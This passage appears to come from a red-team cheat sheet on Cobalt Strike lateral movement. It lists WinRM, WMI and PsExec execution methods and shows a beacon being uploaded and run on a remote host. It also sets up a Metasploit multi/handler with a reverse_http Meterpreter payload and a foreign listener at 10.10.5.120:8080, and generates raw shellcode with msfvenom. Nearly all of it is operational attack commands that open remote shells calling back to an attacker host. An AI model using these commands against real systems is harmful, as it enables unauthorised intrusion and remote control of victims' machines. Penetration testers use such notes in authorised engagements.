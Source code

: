 ## winrm                     x86   Run a PowerShell script via WinRM
## winrm64                   x64   Run a PowerShell script via WinRM
## wmi_msbuild               x64   wmi lateral movement with msbuild inline c# task (oppsec)


remote-exec [method] [target] [command] # remote-exec doesn't return output
## Methods:
## psexec                          Remote execute via Service Control Manager
## winrm                           Remote execute via WinRM (PowerShell)
## wmi                             Remote execute via WMI

## To execute a beacon with wmi (it isn't in the jump command) just upload the beacon and execute it
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe


# Pass session to Metasploit - Through listener
## On metaploit host
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j

## On cobalt: Listeners > Add and set the Payload to Foreign HTTP. Set the Host to 10.10.5.120, the Port to 8080 and click Save.
beacon> spawn metasploit
## You can only spawn x86 Meterpreter sessions with the foreign listener.

# Pass session to Metasploit - Through shellcode injection
## On metasploit host
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=<PORT> -f raw -o /tmp/msf.bin
## Run msfvenom and prepare the multi/handler listener
